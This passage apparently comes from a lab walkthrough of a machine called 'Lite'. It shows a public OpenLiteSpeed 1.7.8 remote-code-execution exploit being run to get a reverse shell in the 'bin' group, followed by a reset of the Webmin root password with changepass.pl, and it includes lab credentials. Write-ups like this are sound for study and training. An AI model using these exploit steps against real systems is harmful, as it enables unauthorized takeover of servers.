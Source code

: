 Using our access, we can actually reset the Webmin password.

{% embed url="https://linuxconfig.net/manuals/howto/how-to-reset-webmin-password.html" %}

However, it appears that only the `bin` group has access to the `/etc/webmin` group:

```
thor@Lite:~$ ls -la /etc/webmin/
total 536                                                                                    
drwxr-xr-x 116 root root 4096 Jun  7  2022 .                                                 
drwxr-xr-x 101 root root 4096 Jul 15 03:43 ..                                                
drwx--x--x   2 root bin  4096 Jun  7  2022 acl
drwx--x--x   2 root bin  4096 Jun  7  2022 adsl-client
drwx--x--x   2 root bin  4096 Jun  7  2022 ajaxterm
<TRUNCATED>
```

Earlier, the RCE exploit for OpenLiteSpeed required us to specify a GroupID, of which I specified `shadow` as the default. We can try specifying bin and using that shell to reset the password.

```
$ python3 49556.py 192.168.201.208:7080 admin Foster2020 bin   
[+] Authentication was successful!
[+] Version is detected: OpenLiteSpeed 1.7.8
[+] The target is vulnerable!
[+] tk value is obtained: 0.02467200 1689393257
[+] Sending reverse shell to 127.0.0.1:4444 ...
[+] Triggering command execution...
```

<figure><img src="../../../.gitbook/assets/image (10) (13).png" alt=""><figcaption></figcaption></figure>

Then we can reset the password and restart Webmin as `thor`:

```
nobody@Lite:/usr/bin$ /usr/share/webmin/changepass.pl /etc/webmin root toor
Updated password of Webmin user root
Webmin is not running - cannot refresh configuration

thor@Lite:~$ sudo /usr/bin/systemctl restart webmin
```

Using this, we can login to Webmin and view the dashboard:
